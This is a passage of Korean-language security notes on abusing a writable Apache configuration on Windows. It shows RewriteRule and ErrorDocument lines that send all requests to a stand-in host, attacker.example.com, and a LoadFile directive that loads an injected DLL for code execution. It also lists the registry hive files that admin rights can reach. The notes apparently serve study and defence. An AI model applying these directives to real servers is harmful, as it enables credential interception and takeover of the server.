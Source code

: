                         # php-fpm (PHP FastCGI Process Manager)를 사용하는 경우
                        SetHandler "proxy:fcgi:\\locahost"

                        # Apache2 자체 mod_php를 사용하는 경우
                        SetHandler application/x-httpd-php
                    </Files>
                    ```
                    - ```<Files>``` 섹션에 포함된 지시어들은 어떤 디렉터리에 있는지 관계 없이 지정한 이름을 가진 파일에 적용됨 <br/> &nbsp;&nbsp; → 위치와 관계없이 해당 이름을 가진 파일에 대한 요청이 들어오면 ```SetHandler```에 의해 명시된 핸들러가 처리함
            - **과정 2**: 요청 리다이렉트 → 모든 요청을 공격자의 웹 서버로 전달하도록 설정을 변경함
                + 공격자 서버 리다이렉트 예시
                    ```Apache
                    RewriteEngine On
                    RewriteOptions inherit # 부모의 설정을 상속받음(inherit)

                    # mod_proxy_fcgi를 사용하는 경우 FastCGI 서버로 요청 프록시
                    RewriteRule (.*) fcgi://attacker.example.com.$1 [P]
                    # mod_proxy_http를 사용하는 경우 HTTP 서버로 요청 프록시
                    RewriteRule (.*) http://%{HTTP_HOST}at.attacker.example.com.$1 [P]
                    # HTTP Redirect 적용
                    RewriteRule (.*) http://%{HTTP_HOST}at.attacker.example.com.$1 [R=302, L]

                    # 에러 페이지를 공격자의 웹 페이지로 리다이렉트함
                    ErrorDocument 404 https://attacker.example.com/
                    ```
                    | 지시어 | 설명 |
                    |:---:|------|
                    | ```RewriteEngine``` | Runtime Rewriting Engine을 활성화(On) 또는 비활성화(Off)함 [🔗](https://httpd.apache.org/docs/2.2/en/mod/mod_rewrite.html#rewriteengine) |
                    | ```RewriteOptions``` | 현재 서버별 또는 디렉터리별 구성에 대한 일부 특수 옵션을 설정함 [🔗](https://httpd.apache.org/docs/2.2/en/mod/mod_rewrite.html#rewriteoptions) <br/> &nbsp;&nbsp; - ```inherit```, ```AllowAnyURI```, ```MergeBase``` 중 하나만 설정할 수 있음 |
                    | ```RewriteRule``` | Rewrite Engine에 대한 규칙을 정의함 [🔗](https://httpd.apache.org/docs/2.2/en/mod/mod_rewrite.html#rewriterule) <br/> &nbsp;&nbsp; - 형식: ```RewriteRule Pattern Subsitution [flags]``` |
                    | ```ErrorDocument``` | 문제/오류 발생 시 다음 4가지 중 하나를 수행하도록 함 [🔗](https://httpd.apache.org/docs/2.2/en/mod/core.html#errordocument) <br/> &nbsp;&nbsp; - 하드코딩된 간단한 오류 메시지 출력 <br/> &nbsp;&nbsp; - 커스텀한 메시지 출력 <br/> &nbsp;&nbsp; - 문제/오류 처리를 위해 내부적으로 로컬 URL 경로로 리다이렉션 <br/> &nbsp;&nbsp; - 문제/오류 처리를 위해 외부 URL로 리다이렉션 |
                + 요청 중에 계정 정보를 포함한 민감한 정보가 포함되어 있다면 이를 또 다른 목적으로 사용할 수 있음
            - **과정 3**: ```C:\www``` 디렉터리 변경이 가능한 경우 업로드한 공유 라이브러리를 로드해 임의 코드 실행이 가능함
                + 변경 사항을 웹 서버에 반영하기 위해서는 **서비스 재시작이 필요함**
                + 공유 라이브러리 예시
                    ```Apache
                    # 서버가 재시작될 때 C:\www\path\to\my\injected\library.dll을 읽어들여 임의 코드를 실행함
                    LoadFile "C:\www\path\to\my\injected\library.dll"
                    ```
                    | 지시어 | 설명 |
                    |:---:|------|
                    | ```LoadFile``` | 서버가 시작하거나 재시작할 때 지정한 목적 파일이나 라이브러리를 읽어들임(link in) [🔗](https://httpd.apache.org/docs/2.2/en/mod/mod_so.html#loadfile) <br/> &nbsp;&nbsp; - 형식: ```LoadFile filename [filename ...]``` |
    - 관리자 권한에서 접근 가능한 시스템 파일의 일부
        | 파일 | 설명 |
        |:---:|------|
        | C:\Windows\System32\config\systemprofile | ```NT AUTHORITYSYSTEM```의 사용자 프로필 계정 <br/> (Linux의 ```/root```에 대응한다고 볼 수 있음) |
        | C:\Windows\System32\config\System <br/> C:\Windows\System32\config\System.alt <br/> C:\Windows\System32\config\System.log <br/> C:\Windows\System32\config\System.sav | ```HKEY_LOCAL_MACHINE\SYSTEM``` 레지스트리 키에 대응하는 하이브 파일 <br/> &nbsp;&nbsp; → 주요 설정 정보를 저장함 |